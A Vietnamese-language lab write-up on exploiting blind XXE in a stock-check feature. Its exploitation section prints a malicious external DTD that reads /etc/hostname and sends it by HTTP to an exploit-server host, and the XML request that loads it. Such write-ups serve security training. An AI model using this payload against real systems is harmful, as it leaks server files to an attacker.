





# Lab: Exploiting blind XXE to exfiltrate data using a malicious external DTD

## Mô tả lab

Ứng dụng có chức năng kiểm tra hàng tồn kho tồn tại lỗ hổng XXE, kết quả không hiển thị lại. Lab cung cấp một exploit server để host nội dung độc hại. Mục tiêu là trích xuất nội dung `/etc/hostname` ra ngoài.

## Các bước thực hiện

### Phân tích

Mở ứng dụng, có một exploit server cho phép host một file. Đúng với mô tả lab, sẽ dùng một external DTD để khai thác.

Request stock check giống các lab trước, chứa đầy đủ dữ liệu dạng XML:



### Khai thác

Chuẩn bị một file DTD độc hại đặt trên exploit server. DTD này đọc `/etc/hostname`, rồi dùng một parameter entity thứ hai để gửi nội dung đó ra ngoài qua HTTP request tới exploit server:

```dtd
<!ENTITY % file SYSTEM "file:///etc/hostname">
<!ENTITY % wrap "<!ENTITY &#x25; send SYSTEM 'https://exploit-0ab9002503ac842f864a8a13011d005c.exploit-server.net/?%file;'>">
```

Lưu ý ký tự `%` trong phần động phải được encode thành `&#x25;`.



Thêm tham chiếu tới external DTD trên exploit server qua một parameter entity:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "https://exploit-0ab9002503ac842f864a8a13011d005c.exploit-server.net/exploit"> 
%xxe; 
%wrap;
%send;]>
<stockCheck><productId>%xxe;</productId><storeId>1</storeId></stockCheck>
```



Response trả về `400 Bad Request`, vì ứng dụng vừa thực hiện một luồng dữ liệu không mong muốn.

Sau khi gửi request, log trên exploit server ghi nhận hai request: request đầu là ứng dụng nạp file DTD độc hại, request thứ hai là phần trích xuất `hostname`:



Submit giá trị hostname:



Lab solved.
